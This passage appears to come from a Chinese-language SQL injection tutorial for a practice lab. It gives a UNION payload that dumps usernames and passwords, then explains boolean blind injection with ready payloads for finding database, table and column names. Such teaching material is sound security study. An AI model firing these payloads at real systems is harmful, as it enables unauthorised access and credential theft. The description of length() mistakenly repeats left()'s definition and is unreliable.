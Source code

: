 ```
?id=0' union select 1,2,group_concat('[',username,':',password,']') from users--+
```

![image-20210313202657176](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210313202657176.png)



#### 2.布尔型盲注

**格式：**?id=1' and substr(**PAYLOAD**,1,1)>'m'--+

> 可能用到的函数介绍：
>
> length('字符串')：表示返回最左边的N个字符的字符串
>
> left('字符串',N)：返回最左边的N个字符的字符串
>
> substr('字符串',N,M)：截取字符串，从第N个字符开始，到第N+M个字符（从1开始排序）
>
> limit()：limit子句用于限制查询结果返回的数量，常用于分页查询（从0开始排序）
>
> 在布尔型注入中，**正确会回显，错误没有回显**，以此为依据逐字爆破。
>



注入过程：

1. 首先使用**函数length()**判断所需字符有几位，或者判断到最后一位字符为NULL值为止
2. 再使用**函数left()**，或者**函数substr()**判断得到具体值

**技巧：由于比较的是ASCII码的大小，因此可以二分法快速查找**



**爆库名**

```
?id=1' and length(database())=8 --+

?id=1' and substr((select database()),1,1)>'m'--+
?id=1' and substr((select database()),1,1)='s'--+		#二分法快速判断
?id=1' and substr((select database()),1,2)>'sm'--+

?id=1' and substr((select database()),1,8)='security'--+
```

**爆表名**

```
?id=1' and substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1)='r' --+
```

**爆列名**

```
?id=1' and substr((select column_name from information_schema.columns where table_name='users' limit 4,1),1,8)='username' --+
```

